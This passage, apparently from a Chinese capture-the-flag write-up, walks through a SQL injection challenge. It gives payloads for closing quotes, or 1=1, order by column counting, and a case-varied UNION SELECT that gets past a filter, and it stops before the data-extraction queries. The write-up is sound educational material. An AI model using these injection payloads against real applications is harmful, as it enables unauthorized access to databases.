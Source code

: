![image-20250316173654328](./assets/image-20250316173654328.png)



存在过滤

先尝试闭合单引号和注释后面内容

![image-20250316173735440](./assets/image-20250316173735440.png)



or 1=1直接得到flag

```
1'or 1=1--+
```

![image-20250316173802096](./assets/image-20250316173802096.png)





接着做得了

利用order by 确定回显数

```
1'order by 4--+
```

![image-20250316173951593](./assets/image-20250316173951593.png)

报错

```
1'order by 3--+
```

![image-20250316173856043](./assets/image-20250316173856043.png)

order by 3正常回显，即三个回显数



利用联合查询判断回显位

```
1'union select 1,2,3 --+
```

![image-20250316174147163](./assets/image-20250316174147163.png)

报错



尝试大小写

```
1'UNION SELECT 1,2,3 --+
```

![image-20250316174221855](./assets/image-20250316174221855.png)

成功



查询版本信息，数据库名和用户信息